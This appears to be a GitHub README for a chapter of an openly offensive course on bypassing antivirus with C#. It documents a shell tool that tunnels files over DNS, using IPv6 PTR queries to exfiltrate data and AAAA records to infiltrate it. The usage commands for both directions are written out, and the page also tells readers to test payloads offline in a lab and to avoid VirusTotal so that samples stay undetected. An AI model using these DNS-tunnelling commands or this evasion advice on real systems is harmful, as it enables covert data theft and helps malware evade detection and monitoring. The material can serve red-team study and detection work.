 # Course : Bypassing Anti Viruses by C#.NET Programming

Part 2 (Infil/Exfiltration/Transferring Techniques by C#)  , Chapter 6 : DATA Transferring Technique by DNS Traffic (AAAA Records)

eBook : Bypassing Anti Viruses by C#.NET Programming

eBook chapter 4 , PDF Download : https://github.com/DamonMohammadbagher/eBook-BypassingAVsByCSharp/tree/master/CH6

Related Video : 

Video 2 for chapter 6: https://www.youtube.com/watch?v=Ac651MbNJ_U

Video 1 for chapter 7: https://www.youtube.com/watch?v=9jiry5b-oPo

Video 2 for chapter 7: https://www.youtube.com/watch?v=6Lj-2KkHqgA

Warning :Don't Use "www.virustotal.com" or something like that , Never Ever ;D

Recommended:

STEP 1 : Use each AV one by one in your LAB .

STEP 2 : after "AV Signature Database Updated" your Internet Connection should be "Disconnect" .

STEP 3 : Now you can Copy and Paste your C# code to your Virtual Machine for test .

# NativePayload_IP6DNS.sh help :

Example A-Step1: (Server Side ) ./NativePayload_IP6DNS.sh -r

Example A-Step2: (Client Side ) ./NativePayload_IP6DNS.sh -u text.txt DNSMASQ_IPv4 [delay] (sec) [address] xxxx:xxxx

example IPv4:192.168.56.110 : ./NativePayload_IP6DNS.sh -r

example IPv4:192.168.56.111 : ./NativePayload_IP6DNS.sh -u text.txt 192.168.56.110 delay 0 address fe81:2222

Description: with A-Step1 you will make DNS Server , with A-Step2 you can Send text file via IPv6 PTR Queries to DNS server

# Using IPv6 PTR Queries for Exfil/Upload DATA

![](https://github.com/DamonMohammadbagher/NativePayload_IP6DNS/blob/master/Chapter%206%20-%20DATA%20Transferring%20Technique%20by%20DNS%20Traffic%20-%20AAAA%20Records/Pics/NativePayload_IP6DNS-Via-IPv6-PTR.png)

Example B-Step1: (Server Side ) ./NativePayload_IP6DNS.sh -d makedns test.txt mydomain.com [address] xxxx:xxxx

Example B-Step2: (Client Side ) ./NativePayload_IP6DNS.sh -d getdata mydomain.com DNSMASQ_IPv4"

example IPv4:192.168.56.110 : ./NativePayload_IP6DNS.sh -d makedns text.txt google.com address fe80:1234

example IPv4:192.168.56.111 : ./NativePayload_IP6DNS.sh -d getdata google.com 192.168.56.110

Description: with B-Step1 you will have DNS Server , with B-Step2 you can Dump test.txt file from server via IPv6 AAAA record Query

# Using IPv6 AAAA Records for Infil/Download DATA

![](https://github.com/DamonMohammadbagher/NativePayload_IP6DNS/blob/master/Chapter%206%20-%20DATA%20Transferring%20Technique%20by%20DNS%20Traffic%20-%20AAAA%20Records/Pics/NativePayload_IP6DNS-Via-IPv6-AAAA.png)

